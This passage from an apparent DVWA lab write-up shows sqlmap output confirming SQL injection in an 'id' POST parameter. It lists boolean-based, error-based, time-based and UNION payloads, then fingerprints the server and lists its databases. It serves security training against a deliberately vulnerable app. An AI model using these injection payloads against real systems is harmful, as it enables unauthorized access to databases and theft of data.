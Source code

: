 ```txt
[13:10:48] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:10:58] [INFO] POST parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[13:10:58] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:10:58] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:10:58] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[13:10:58] [INFO] target URL appears to have 2 columns in query
[13:10:58] [INFO] POST parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id=(SELECT (CASE WHEN (3745=3745) THEN 1 ELSE (SELECT 8799 UNION SELECT 2604) END))&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 3625 FROM(SELECT COUNT(*),CONCAT(0x7171787871,(SELECT (ELT(3625=3625,1))),0x7178707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 8632 FROM (SELECT(SLEEP(5)))uRpz)&Submit=Submit

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1 UNION ALL SELECT NULL,CONCAT(0x7171787871,0x7070625443514a4a74615a426e614e4256626b5742636b64675359505a4a477a70455a5444754162,0x7178707071)-- -&Submit=Submit
---
[13:12:41] [INFO] the back-end DBMS is MySQL
[13:12:41] [CRITICAL] unable to connect to the target URL ('Broken pipe'). sqlmap is going to retry the request(s)
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[13:12:41] [INFO] fetching database names
available databases [2]:
[*] dvwa
[*] information_schema

```

\*Not all the steps performed in the previous difficulty have been repeated since it is understood that having succeeded in executing this one, all the others would be a mere repetition.
#### High
